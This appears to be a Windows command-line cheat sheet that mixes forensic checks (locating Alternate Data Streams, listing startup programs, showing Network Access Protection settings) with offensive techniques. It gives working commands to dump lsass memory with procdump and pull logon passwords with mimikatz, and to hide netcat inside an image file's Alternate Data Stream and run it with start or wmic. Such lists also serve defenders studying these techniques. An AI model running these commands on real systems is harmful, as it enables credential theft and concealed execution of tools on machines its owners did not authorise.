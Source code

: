 #### Using the `dir` command to find Alternate Data Streams

```
C:\> dir /R | find ":$D"
```

Using streams `sysinternals` (shows path):

```
C:\> streams -s .
```

#### Use `procdump` to obtain the `lsass` process memory.

**Use `mimikatz`  `minidump` to get passwords**

```
C:\> procdump -accepteula -ma lsass.exe mini.dmp
```

#### Run `mimikatz` in `minidump` mode & use `mini.dmp` from `procdump`

```
mimikatz # sekurlsa::minidump mini.dmp
mimikatz # sekurlsa::logonPasswords
```

#### Get list of startup programs using wmic

```
C:\> wmic startup list full
```

#### Add a binary to an Alternate Data Stream

```
C:\> type c:\tools\nc.exe > c:\nice.png:nc.exe
```

Execute it (XP/2K3):

```
C:\> start c:\nice.png:nc.exe
```

#### Execute a binary Alternate Data Stream Win 7/2008 using wmic

```
C:\> wmic process call create C:\nice.png:nc.exe
```

#### Show config & state info for Network Access Protection enabled client

[https://technet.microsoft.com/en-us/library/cc730902(v=ws.10).aspx](https://technet.microsoft.com/en-us/library/cc730902\(v=ws.10\).aspx)

```
C:\> netsh nap client show configuration
```

